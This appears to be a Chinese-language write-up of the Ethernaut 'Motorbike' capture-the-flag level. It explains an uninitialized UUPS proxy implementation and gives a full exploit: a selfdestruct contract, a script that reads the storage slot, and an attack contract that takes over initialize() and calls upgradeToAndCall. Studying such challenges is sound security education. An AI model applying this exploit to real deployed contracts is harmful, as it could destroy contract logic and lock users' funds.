

<!-- more -->

#### 第二十五关  Motorbike

#### 目标: 触发Engine 合约自毁

##### 先看代码:

```solidity
/*
这里的两个合约使用了UUPS代理模式 :
user <-call-> proxy(storage) <-delegatecall-> loginContract
比起24关的有管理员的透明代理模式
UUSP模式下的实现合约也增加了合约升级逻辑,(但是其实此功能如果用不好是危险的)
而且proxy合约中添加了特定的存储插槽来存储了逻辑合约的地址防止存储碰撞.
最大的优点是此模式下代理合约将担任存储层,实现合约完全只有逻辑.
*/
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    //逻辑实现合约地址存储槽
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // 代理合约初始化
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        //call逻辑实现合约initialize方法
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

  //如果没有匹配到合适的函数将delegatecall逻辑实现合约
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    //返回AddressSolt的地址值
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
     //逻辑实现合约地址存储槽
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    /*
    问题出现在这里,没有良好的校验更新合约的合法性.
    如要更新逻辑实现合约 应该严格校验最新合约的功能(全部功能完整的call校验一次),以及更新者的地址.
    而且在UUSP代理模式下仅仅依靠代理合约确定可信的更新者地址是远远不够的
    */
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        //校验是否是upgrader
        _authorizeUpgrade();
        //升级实现合约
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // 升级实现合约并call检查
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // 实现合约升级逻辑
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
/*
poc思路:在engine合约中并没有合约自毁方法,但是由于这两个合约的代理模式是UUSP.
所以我们得到了什么,对upgradeToAndCall.实现合约的更新逻辑在实现合约中.
我们知道UUSP代理模式代理合约仅能call实现合约的initialize()函数一次,但如果是恶意合约直接调用呢?
*/
```

##### 所以我们得出以下流程: 

##### 1.构建自毁合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract kill {
    function selfkill() external {
        //因为合约没有余额所以不需要自毁后转账
        selfdestruct(payable(address(0)));
    }
}
```


##### 2.读取存储槽获得存储在代理合约上的实现合约地址

```js
async function main() {
    await web3.eth.getStorageAt(
        "0x60AAc9217A4433202CcF1E5cdF587E7Df52A6a8e",
        //合约代码中定义的固定存储槽
        "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc",
        (err, res) => {
            console.log(res)
        }
    )
}
// result should like that 0x000000000000000000000000ca27783e836ec7bfcc87a9f5dca90a7abd521019
```


##### 3.构建恶意合约调用实现合约initialize()函数(通过_authorizeUpgrade()函数校验)

##### 4.调用engine合约 upgradeToAndCall函数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Vulnerability/Motorbike.sol";
import "./Vulnerability/Engine.sol";

contract destructEngine {
    Motorbike mot = Motorbike(payable(0x60AAc9217A4433202CcF1E5cdF587E7Df52A6a8e));
    Engine engine = Engine(0xca27783e836EC7BFcc87a9F5Dca90a7Abd521019);

    function attack() public {
        engine.initialize();
        bytes memory encodedData = abi.encodeWithSignature("selfkill()");
        //此处的合约地址是构建好的自毁合约地址
        engine.upgradeToAndCall(0x0A1440928E716905D32576ff6F7dc31560feA799,encodedData);
    }
}

```

:+1:

